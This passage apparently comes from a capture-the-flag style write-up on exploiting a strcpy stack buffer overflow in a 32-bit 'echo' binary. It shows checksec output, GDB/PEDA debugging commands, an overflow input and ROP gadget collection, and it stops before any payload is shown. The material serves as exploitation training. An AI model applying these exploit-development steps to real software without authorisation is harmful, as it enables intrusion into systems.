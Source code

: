And it happens because we can enter any size of data, and the `strcpy` function will copy it into a `300` bytes buffer.
When I check the security of the file with the `PWN Checksec` command:
```shell
$ pwn checksec echo
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```
Then I can see there is no security available, and I can analyze the memory addresses with `GDB`, and I can use return-oriented programming `ROP` to structure the payload. When I debug it with `GDB`, and I use the `PEDA` tools:
```shell
$ gdb -q echo
```
And I put a breakpoint in the `main` function:
```shell
$ gdb-peda$ b main
```
And I run it with an input of `300` bytes:
```shell
$ gdb-peda$ r $( perl -e 'print "A" x 300')
```
And I use the `dumprop` command of the `PEDA` tools to get the `ROP` gadgets:
```shell
$ gdb-peda$ dumprop
```
Then it creates a file called `echo-rop.txt` with all the gadgets found, when I put a breakpoint after the `strcpy` function:
```shell
$ gdb-peda$ b *0x0804846f
```
And before proceeding with execution, I check the stack:
```shell
$ gdb-peda$ x/128wx $esp
$ c
```
And I check the stack again, then I can identify all addresses I need:

![evidence](./static/18-gdb-address.png)
